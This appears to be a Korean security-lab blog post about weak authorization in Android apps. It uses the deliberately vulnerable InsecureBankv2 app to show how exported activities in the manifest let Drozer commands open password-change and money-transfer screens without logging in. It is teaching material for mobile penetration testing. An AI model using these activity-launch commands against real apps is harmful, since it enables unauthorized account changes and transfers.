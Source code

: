 ```yaml
---
layout: single
title: Weak Authorization mechanism
categories: Android
tag: [android, mobile, drozer,insecurebankv2, app, application, Weak Authorization mechanism]
toc: true
author_profile: false
---
```


# Weak Authorization mechanism 이란?

> 직역하면 취약한 인증 메커니즘으로, 각각의 기능들에 대한 정상적인 인증 절차를 우회하여 비정상적인 방법으로 접근 권한을 취득할 수 있는 취약점이다. 즉, 모바일 앱의 백엔드 서버에 서비스 요청을 제출하여, 인증을 위조, 우회하여 모바일 앱과의 직접적인 상호 작용을 우회하게 된다.

💡 **<u><span style="background-color: yellow; ">해당 취약점 실습은 "InsecureBank2"라는 모바일 뱅킹서비스 어플리케이션으로 진행합니다.</span></u>** 
{: .notice--primary}

이러한 취약한 인증은 다양한 부분에서 발생할 수 있으며, 대표적으로 아래와 같다.
<br><br>
1. 적절하지 않은 Application Permition 설정 여부
2. 서비스 권한 상승에 대한 적절한 통제 미흡
3. 기능에 대한 제한 및 우회 금지 여부
4. 불필요하거나 사용하지 않는 액티비티 제거 여부
5. 인텐트 사용에 대한 안전성 여부
6. 마스터 키 취약점 대응 여부
<br>
<br>

## 취약점 분석

```xml
<activity
    android:name=".ChangePassword"
    android:exported="true"
    android:label="@string/title_activity_change_password" >
</activity>

<activity
    android:name=".ViewStatement"
    android:exported="true"
    android:label="@string/title_activity_view_statement" >
</activity>
```

해당 코드는 진단 대상 어플리케이션인 InsecureBank 앱의 AndroidManifest.xml 파일의 activaty요소를 정의하는 부분이다.
<br><br>
이처럼 몇몇 액티비티 요소들을 보게되면 android:exported가 "true" 로 설정되어 있다. 이는 액티비티가 외부 앱에서 접근이 가능하다는 것을 나타낸다.

### Drozer을 이용한 실습

![그림 1-1](image.png)
- 위와 같이 Drozer을 통해서 외부에서 접근 가능한 액티비티들을 보여준다.

```
run app.activity.start --component com.android.insecurebankv2 com.android.insecurebankv2.PostLogin
```
![그림 1-3](image-1.png)

```
run app.activity.start --component com.android.insecurebankv2 com.android.insecurebankv2.ChangePassword
```

![그림 1-4](image-2.png)

```
run app.activity.start --component com.android.insecurebankv2 com.android.insecurebankv2.DoTransfer
```

![그림 1-5](image-3.png)

<br>
<hr>
위와 같이 별도의 인증절차 없이 각각의 액티비티에 접근할 수 있게 된다.
